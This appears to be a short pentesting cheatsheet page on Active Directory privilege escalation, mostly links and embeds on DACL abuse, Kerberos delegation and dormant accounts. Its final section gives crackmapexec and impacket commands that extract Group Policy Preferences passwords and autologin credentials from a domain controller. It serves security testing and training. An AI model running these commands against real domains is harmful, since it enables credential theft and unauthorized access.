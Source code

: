 ```yaml
---
layout: post
title: privesc / ad
category: 02-privesc
parent: cheatsheets
modified_date: 2023-07-04
permalink: /privesc/ad
---
```


**Mitre Att&ck Entreprise**: [TA0007 - Discovery](https://attack.mitre.org/tactics/TA0007/)

**Menu**
<!-- vscode-markdown-toc -->
* [dacl](#dacl)
* [kerberos](#kerberos)
	* [delegation](#delegation)
* [vuln_user_accounts_dormant](#vuln_user_accounts_dormant)
* [shoot-gpo](#shoot-gpo)

<!-- vscode-markdown-toc-config
	numbering=false
	autoSave=true
	/vscode-markdown-toc-config -->
<!-- /vscode-markdown-toc -->

## <a name='dacl'></a>dacl

credit: [thehacker.repices](https://thehacker.repices/ad/movement/dacl)
![ad privesc DACLs](/assets/images/pen-privesc-dacl.png)

## <a name='kerberos'></a>kerberos

### <a name='delegation'></a>delegations

<iframe width="560" height="315" src="https://www.youtube.com/embed/7_iv_eaAFyQ" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" allowfullscreen></iframe>

 [recipes](https://www.thehacker.recipes/ad/movement/kerberos/delegations) / [slides](https://drive.google.com/file/d/1S8Ee29xUHluaT3shvtuHZqGfwZGfSCaV/view)


## <a name='vuln_user_accounts_dormant'></a>vuln_user_accounts_dormant

* Queries:
```powershell

pwdLastSet
```
* [Description](https://www.cert.ssi.gouv.fr/uploads/ad_checklist.html#vuln_user_accounts_dormant)


## <a name='shoot-gpo'></a>shoot-gpo
```bash
# cme
crackmapexec smb $zdom_dc_ip -u $ztarg_user_name -p $ztarg_user_pass -M gpp_pasword
crackmapexec smb $zdom_dc_ip -u $ztarg_user_name -p $ztarg_user_pass -M gpp_autologin
# impacket
Get-GPPPassword.py $zz
```